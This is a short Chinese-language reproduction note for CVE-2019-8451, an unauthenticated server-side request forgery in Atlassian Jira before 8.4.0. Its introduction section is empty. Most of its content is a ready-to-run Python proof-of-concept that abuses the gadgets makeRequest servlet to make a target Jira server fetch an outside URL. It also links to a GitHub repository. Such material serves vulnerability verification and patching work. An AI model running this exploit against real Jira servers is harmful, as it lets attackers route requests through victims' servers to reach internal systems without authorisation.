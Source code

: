 （CVE-2019-8451）Atlassian Jira 未授权SSRF漏洞验证
==================================================

一、漏洞简介
------------

二、影响范围
------------

Atlassian Jira \< 8.4.0

三、复现过程
------------

![](resource/(CVE-2019-8451)AtlassianJira未授权SSRF漏洞验证/media/rId24.png)

> https://github.com/ianxtianxt/CVE-2019-8451

    #coding:utf-8
    import requests

    host = 'http://xx.xx.xx.xx:8080'
    header = {
                            'X-Atlassian-Token': 'no-check',
                            'Connection': 'close'
                    }

    url = host + '/plugins/servlet/gadgets/makeRequest?url='+host+'@www.baidu.com/'
    html = requests.get(url = url,headers = header)
    print html.text
